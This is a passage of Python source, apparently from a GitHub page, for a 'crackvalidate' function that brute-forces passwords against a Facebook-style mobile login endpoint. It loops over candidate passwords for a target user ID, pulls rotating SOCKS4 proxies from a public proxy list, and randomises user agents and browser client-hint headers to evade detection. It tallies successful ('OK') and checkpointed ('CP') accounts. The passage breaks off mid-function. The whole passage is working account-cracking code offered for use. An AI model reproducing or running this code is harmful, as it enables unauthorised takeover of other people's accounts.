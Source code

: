 #----------[ METODE-VALIDATE ]----------#	
def crackvalidate(idf,pwx,url):
	global loop,ok,cp
	ses = requests.Session()
	rr = random.randint
	rc = random.choice
	emot = rc(["😝","😜","🤪"])
	prog.update(des,description=f"\r {emot} VALIDATE (%s OK : {ok} %s) (%s CP : {cp} %s) (%s {loop} %s) "%(hijo,puti,kun,puti,hijo,puti))
	prog.advance(des)
	for pw in pwx:
		try:
			proxs = requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
			open('socksku.txt','w').write(proxs)
			nip = rc(proxs)
			proxs = {'http': 'socks4://'+nip}
			ua = rc(ugen)
			ua2 = rc(["Mozilla/5.0 (iPhone; CPU iPhone OS 13_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.1 Mobile/15E148 Safari/604.1","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.59"])
			ref = rc([f"https://{url}/login/device-based/password/?uid="+idf+"&flow=login_no_pin&refsrc=deprecated&_rdr"])
			link = ses.get(f"https://{url}/login/device-based/password/?uid="+idf+"&flow=login_no_pin&refsrc=deprecated&_rdr")
			date ={"lsd":re.search('name="lsd" value="(.*?)"', str(link.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(link.text)).group(1),
	        "uid":idf,
	        "next":f"https://{url}/login/save-device/",
	        "flow":"login_no_pin",
	        "pass":pw,
	        }     
			koki = (";").join([ "%s=%s" % (key, value) for key, value in link.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			ver = rc(["ms-MY,ms;q=0.9","fr_FR,fr;q=0.9"])  		
			head={'Host': url,
	        'cache-control': 'max-age=0',
	        'dpr': f'{str(rr(1,5))}',
	        'viewport-width': f'{str(rr(400,999))}',
	        'sec-ch-ua': f'"Chromium";v="{str(rr(110,115))}", "Google Chrome";v="{str(rr(110,115))}", "Not:A-Brand";v="{str(rr(8,20))}"',
	        'sec-ch-ua-mobile': '?1',
	        'sec-ch-ua-platform': '"Android"',
	        'sec-ch-ua-platform-version': f'"{str(rr(5,14))}.0.0"',
	        'sec-ch-ua-full-version-list':f'"Chromium";v="{str(rr(99,115))}.0.{str(rr(5000,5999))}.{str(rr(40,99))}", "Google Chrome";v="{str(rr(99,115))}.0.{str(rr(5000,5999))}.{str(rr(40,99))}", "Not:A-Brand";v="{str(rr(8,20))}.0.0.0"',
	        'sec-ch-prefers-color-scheme': 'light',
	        'upgrade-insecure-requests': '1',
	        'origin': 'https://'+url,
	        'content-type': 'application/x-www-form-urlencoded',
	        'user-agent': ua,
	        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
	        'x-requested-with': 'XMLHttpRequest',
	        'sec-fetch-site': 'same-origin',
	        'sec-fetch-mode': 'cors',
	        'sec-fetch-user': '?1',
	        'sec-fetch-dest': 'empty',
	        'referer': ref,
	        'accept-encoding': 'gzip, deflate, br',
	        'connection': 'close',
	        'accept-language': ver}
			rdm = rc(["id_ID","jv_ID","id_ID_ID","jv_ID_ID"])